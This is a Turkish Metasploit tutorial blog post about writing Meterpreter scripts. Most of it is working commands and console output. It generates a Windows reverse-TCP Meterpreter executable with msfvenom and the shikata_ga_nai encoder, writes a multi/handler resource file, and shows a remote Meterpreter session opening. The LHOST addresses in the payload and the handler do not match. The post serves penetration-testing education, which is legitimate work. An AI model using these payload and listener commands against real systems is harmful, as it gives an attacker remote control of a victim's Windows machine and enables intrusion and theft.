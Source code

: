 ```yaml
---
draft: false

title:  'MSF Meterpreter Script Yazma'
date: '2017-06-14T13:47:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Öncelile, yeni bir script yazarken dikkat edilmesi gereken bir takım kuralları görelim. 
Tüm Windows sürümleri aynı değildir. 
Bazı Windows sürümleri, güvenlik tedbirleri barındırırlar. 
Windows Scriptleri, sürüme bağlı olarak farklı davranış gösterirler. 
Script yazarken Windows sürümüne özel davranmanız gerekebilir." 
 
url:  /tr/msf-meterpreter-script-yazma/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## Script Yazma



Öncelile, yeni bir script yazarken dikkat edilmesi gereken bir takım kuralları görelim.


* 
* Tüm Windows sürümleri aynı değildir.

* Bazı Windows sürümleri, güvenlik tedbirleri barındırırlar.

* Windows Scriptleri, sürüme bağlı olarak farklı davranış gösterirler.

* Script yazarken Windows sürümüne özel davranmanız gerekebilir.




Yukarıda belirtilen kuralları göz önünde bulundurarak, hedefe özel script yazmak gerekmektedir. Bu durumda yazacağımız script doğru çalışabilir.



Şimdi, aşağıdaki komut ile çalıştırılabilir bir .exe dosyası oluşturalım. Bu program, hedef sistemde çalışacak ve yerel bilgisayarımıza reverse bağlantı açacaktır.


```bash
root@kali:~# msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp  LHOST**=**192.168.1.101 -b "\x00" -f exe -o Meterpreter.exe
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 326 **(**iteration**=**0**)**
x86/shikata_ga_nai chosen with final size 326
Payload size: 326 bytes
Saved as: Meterpreter.exe
```



Gerekli .exe dosyamız oluşturuldu. Bu dosya hedef windows işletim sistemi içinde çalışacak ve yerel bilgisayara iletişim sağlayacaktır. O zaman bizim yerel bilgisayarda dinleyici oluşturmamız gerekmektedir. Dinleyicimizi oluşturalım.


```bash
root@kali:~# touch meterpreter.rc
root@kali:~# echo use exploit/multi/handler **>>** meterpreter.rc
root@kali:~# echo set PAYLOAD windows/meterpreter/reverse_tcp **>>** meterpreter.rc
root@kali:~# echo set LHOST 192.168.1.184 **>>** meterpreter.rc
root@kali:~# echo set ExitOnSession false **>>** meterpreter.rc
root@kali:~# echo exploit -j -z **>>** meterpreter.rc
root@kali:~# cat meterpreter.rc
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.184
set ExitOnSession false
exploit -j -z
```



Dikkat ederseniz komutlarla, multi handler modülünü dinleyici olarak ayarladık. Payload modülü olarak reverse_tcp modülü kulandık. Yerel IP adresi olarak 192.168.1.184 ayarladık.



Yeni yazdığımız scriptleri `/usr/share/metasploit-framework/scripts/meterpreter` klasörüne kayıt edersek, kolayca kullanabiliriz.



Şimdi yapmamız gereken, `msfconsole` programını yeni oluşturduğumuz `meterpreter.rc` dosyasını kaynak göstererek başlatmak.


```bash
root@kali:~# msfconsole -r meterpreter.rc

       **=[** metasploit v4.8.2-2014021901 **[**core:4.8 api:1.0] **]**
+ -- --**=[** 1265 exploits - 695 auxiliary - 202 post **]**
+ -- --**=[** 330 payloads - 32 encoders - 8 nops      **]**

resource> use exploit/multi/handler
resource> set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD **=>** windows/meterpreter/reverse_tcp
resource> set LHOST 192.168.1.184
LHOST **=>** 192.168.1.184
resource> set ExitOnSession false
ExitOnSession **=>** false
resource> exploit -j -z
**[*********]** Handler binding to LHOST 0.0.0.0
**[*********]** Started reverse handler
**[*********]** Starting the payload handler...
```



Yukarıda gördüğünüz gibi Metasploit Framework dinleme yaparak başlamıştır. Artık, oluşturduğumuz .exe dosyasını Windows içerisinde çalıştırdığımızda, oturum aktif hale gelecektir.


```bash
**[*********]** Sending stage **(**718336 bytes**)**
**[*********]** Meterpreter session 1 opened **(**192.168.1.158:4444 -> 192.168.1.104:1043**)**

msf exploit**(**handler**)** **>** sessions -i 1
**[*********]** Starting interaction with 1...

meterpreter **>**```
